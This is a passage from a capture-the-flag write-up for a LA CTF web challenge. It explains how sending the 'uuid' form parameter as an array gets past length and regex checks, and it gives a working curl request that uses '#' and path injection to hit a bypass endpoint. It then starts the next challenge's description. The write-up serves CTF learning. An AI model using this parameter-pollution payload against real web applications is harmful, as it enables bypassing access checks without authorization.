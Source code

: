 In the source code snippet above we can see that the server will check for the `uuid` parameter but here it doesn't check whether the `uuid` parameter we entered is a `string` or not, so we can make the `uuid` parameter an array and bypass that check it's in the source code above.

After that we can rewrite the `requestURL` and make it access `/api/:uuid/bypass` to make our `uuid` user `server:true` so we can get the flag.

```javascript
    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

### Exploitation

To exploit this we have to make a request to the `flagserver` namely https://qu-flag.lac.tf/ after that we send a request which contains 36 post request `uuid` as follows to bypass `uuid.length != 36` and also regex.

```shell
curl -X POST https://qu-flag.lac.tf/ -d "uuid=e7d9cd88-ecfb-45c2-bea1-e1727a25f8b8/bypass#&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f&uuid=f" -H "Content-Type: application/x-www-form-urlencoded"
```

in the first uuid parameter we need to include a `#` so that the rest of the payload is ignored by the server, we also need to add `e7d9cd88-ecfb-45c2-bea1-e1727a25f8b8/bypass` to make a request to `/api/:uuid/bypass` and sets the `serve` of our uuid to true.

Run curl above and return to https://qu-flag.lac.tf/ then we will get the flag

![](https://i.imgur.com/9E3w9mv.png)


# hptia - web
## Description

I made a new hyper-productive todo list app that limits you to 12 characters per item so you can stop wasting time writing overly intricate todo lists!

Check it out here: hptla.lac.tf
